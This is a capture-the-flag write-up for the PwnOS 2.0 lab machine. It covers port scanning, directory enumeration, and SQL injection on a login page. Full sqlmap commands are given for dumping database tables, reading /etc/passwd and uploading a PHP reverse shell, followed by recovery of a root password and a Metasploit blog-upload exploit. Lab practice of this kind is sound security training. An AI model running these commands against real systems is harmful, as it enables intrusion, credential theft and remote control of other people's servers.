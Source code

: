 # Topic: PWNOS 2.0

# Subject: CTF

# Reported by : Shirinov Turan


Started with `nmap` scan with the following syntax:

`nmap -vv -A -T4 -p- 10.10.10.100`

Open ports –

22 -> ssh OpenSSH 5.8p1 Debian 1ubuntu3 -> OpenSSH < 6.6 SFTP - Command
Execution

80-> http Apache httpd 2.2.17 (Ubuntu) -> Apache Struts 2.0.1 < 2.3.33 / 2.5 <
2.5.10 - Arbitrary Code Execution


![nmap](https://github.com/ShTuran/CTFs/assets/111232034/64b2cb9b-1a1d-44ce-877c-249ec23482d4)


Begin with http enum:

After that, I went to web page -> http://10.10.10.100

- Admin email -> admin@isints.com - Dan (from users table)
- Site is PHP based


  
As a second step, I run nikto to see any vulnerability regarding to
webpage:
I’ve got a lot of information I here.

![nikto](https://github.com/ShTuran/CTFs/assets/111232034/21a138d8-d65d-40ab-bb2e-0b1e40125602)


As a third step I’ve run gobuster to enumerate the directories:
Some of them were obvious, but there are some directories we’ve never seen
before.


![gobuster](https://github.com/ShTuran/CTFs/assets/111232034/73b626a2-c979-4e55-997f-07b6289c600b)


Immediately, I went to login page:

10.10.10.100/login.php is vulnerable to SQL injection which we get -> error based
slq injection lead to information disclosure and via the `sqlmap` - I find that
backend DBMS is MySQL, Linux Ubuntu 11.04, PHP 5.3.5



I have captured the request via burpsuite and put it a file called `loginpage`
Found the database name `sqlmap -r loginpage –crawl=3 --dbs` which we got ->
ch16 database name.
`sqlmap syntax` - > `sqlmap -r loginpage -crawl=3 -D ch16 –tables -dump`
Table name - `users`

Using sqlmap I have just confirmed that ‘email ’ is indeed vulnerable to SQLi
Command was used: sqlmap -u http://10.10.10.100/login.php --
data="email=test&pass=test&submit=Login&submitted=TRUE".

![sqlmap](https://github.com/ShTuran/CTFs/assets/111232034/c14f1d9c-fa90-41ca-a906-d7ffcbc1657b)


And adding –dump will gave us what we need, even though I do get the hash of
admin I could not be able to crack it. I also tried to get –os-shell but it was not
successful neither.

![sqlmap (2)](https://github.com/ShTuran/CTFs/assets/111232034/f1cf2d43-7274-4500-aa9b-c6ad25044a26)

And via the sqlmap I read the /etc/passwd:
It means that, I can read the file. The question was can I write as well? Yes. I
uploaded php-reverse shell:

![etcpasswd](https://github.com/ShTuran/CTFs/assets/111232034/c201204e-268f-44f6-9d61-168d80696be5)


Command was used: sqlmap -u http://10.10.10.100/login.php --
data="email=test&pass=test&submit=Login&submitted=TRUE" --file-write
/home/kali/phprs --file-dest /var/www/rev.php. And visited the .rev.php I do
get reverse shell. At this point, I only need to escelate the priveleges.
And listened on port 1234; got foothold.

![foothold](https://github.com/ShTuran/CTFs/assets/111232034/2da5b572-cfef-493f-b4c0-e43333aa5ff9)


After some recon – I found 2 “mysqli_connect.php” which one of them in
the /var directory and one of them in /var/www directory. The one which in
/var directory was containing the root password.


![root](https://github.com/ShTuran/CTFs/assets/111232034/cc371ab3-dd84-473c-aff9-d379aff3435b)


Additional vulnerabilites:
- 10.10.10.100/blog has xss in the `search`.

  
![Screenshot_2024-05-04_04_06_55](https://github.com/ShTuran/CTFs/assets/111232034/196f2123-cd3d-49d1-8744-c58831176be2)



- Simple PHP Blog 0.4.0 is vulnerable to file upload when I `search PHP
Blog 0.4.0` I got the meterpreter shell but I could not be able to escelate the
priveleges from there.

![ms](https://github.com/ShTuran/CTFs/assets/111232034/c8efdfa2-793d-4ed5-84f0-66e84518dfa9)



- This module combines three separate issues within The Simple PHP
Blog (<= 0.4.0) application to upload arbitrary data and thus execute a shell.
The first vulnerability exposes the hash file (password.txt) to
unauthenticated users. The second vulnerability lies within the image upload
system provided to logged-in users; there is no image validation function in
the blogger to prevent an authenticated user from uploading any file type.
The third vulnerability occurs within the blog comment functionality,
allowing arbitrary files to be deleted.
Reference of above text
https://www.rapid7.com/db/modules/exploit/unix/webapp/sphpblog_file_upload/
